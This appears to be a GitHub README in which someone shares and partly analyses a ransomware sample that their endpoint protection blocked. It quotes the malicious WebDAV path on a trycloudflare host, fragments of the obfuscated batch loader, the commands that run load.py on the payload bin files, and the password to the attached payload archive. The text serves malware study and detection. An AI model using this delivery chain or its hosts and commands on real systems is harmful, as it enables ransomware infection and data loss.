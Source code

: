 Hey Together!

Today we got an interesting zip file containing only a `.lnk` file named "Invoice" that triggered the WScript host with the path `\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs` to execute.
Sadly, we don't have the original file anymore. We use disposable VMs as workstations that get deleted in such cases.

I have sent as many files as I could get to ensure you can take a deep dive into it. Sadly, I did not get deeper into the Python `load.py` and the binaries that do all the final magic.

_TLDR_  
This runs a VBS script triggering a batch script, which then plants a portable Python 3.12 and some binary files with `load.py` to seemingly encrypt files and request BTC to decrypt them.  
Big questions were raised by this:

- Why is it allowed to run a CMD -C from a URL?
- How can WScript be triggered from a WebDAV?
- What does `load.py` do with the other binaries?

_Longer explanation:_  
When opening the path in the editor, we can see the contents!

The VBS spawns a new CMD with the -C option to a HTTPS path (why the heck should this be allowed?) to stage its loader (`voi.bat`).

This is heavily obfuscated, but with some smart ideas from ChatGPT to replace all variables (`%.*%`) with `[VAR]`, I found out it's just noise added to it.

Example:

```
@[VAR]e[VAR]c[VAR]h[VAR]o[VAR] [VAR]o[VAR]f[VAR]f[VAR]
s[VAR]e[VAR]t[VAR]l[VAR]o[VAR]c[VAR]a[VAR]l[VAR]
```

Converts to

```
@echo off
setlocal
```

Because the vars do not resolve to anything, it's nothing more than noise added to the script!

With that, I searched for all the variables that are needed in the script to download and save stuff, telling ChatGPT, "Please remove all except these!"

```
antivirusDetected
runCommand1
runCommand2
runCommand3
runCommand4
zipUrl
retires
zipUrl
destination
ERRORLEVEL
txtUrl
txtDestination
```

Out came my final deobfuscated `voi.bat`, going deeper into the rabbit hole.

In our case, the "antivirusDetected" wasn't triggered, and because of this, I got my hands on the `bab.zip` file, which contained a portable Python + `load.py` and some bin files.

Because of the deobfuscated `voi.bat`, I knew the following commands would get triggered:

```
set "runCommand1=load.py cc.bin"
set "runCommand2=load.py vv.bin"
set "runCommand3=load.py pay.bin"
set "runCommand4=load.py payload.bin"
...
"\python.exe" %runCommand1%
...
"\python.exe" %runCommand2%
...
"\python.exe" %runCommand3%
...
"\python.exe" %runCommand4%
```

I tried some more and fed these back to ChatGPT, but sadly, didn't get much further...

All it found was that the `cc.bin` contained the function "delete" and `pay.bin` contains "btc" somewhere.

# Now it's your turn :D

I would love to see you get deeper into it!

All payload files are attached in the encrypted `.7z` (password: "plzsubscribe"), including my deobfuscated file from ChatGPT.  
I added a screenshot of our XDR and why it got remediated and killed (Thread Indicators) as well.  
Without its help, we probably would have run into a ransomware attack!

# Sentienl One Output

```
Threat Info:
Name: wscript.exe (CLI 1242)
URL: _redacted_
Path: \Device\HarddiskVolume3\Windows\System32\wscript.exe (CLI 1242)
Command Line Arguments: "\\ni-olympic-forests-invoice.trycloudflare.com@SSL\DavWWWRoot\tat.vbs"
Process User: _redacted_
Signature Verification: NotSigned
Originating Process: explorer.exe
SHA1: 12427b31dfda0fd6d07cd2792eab5863c8da0a0d
SHA256: b6359dcb4e55310ff3471ee180141cad9333b51e03c2da8c57afb55969be0047
MD5: 3c979f9b452df16a1e2d7b1d56b39902
Initiated By: Agent Policy
Engine: Anti Exploitation / Fileless
Detection type: Dynamic
Classification: Ransomware
Storyline: 8D95C5F34630CCAB
Threat Id: 2086152210643011641
Endpoint Info:
Computer Name: _redacted_
Console Connectivity: Offline
Full Disk Scan: Completed at Nov 15, 2024 13:13:32
Pending reboot: No
Network Status: Disconnected
Scope: \*_redacted_
OS Version: Windows 10 Enterprise LTSC 19044
Agent Version: 24.1.4.257
Policy: protect
UUID: _redacted_
Domain: _redacted_
IP v4 Address: _redacted_
IP v6 Address: _redacted_
Console Visible IP Address: _redacted_
Subscription Time: Nov 15, 2024 13:13:32
```
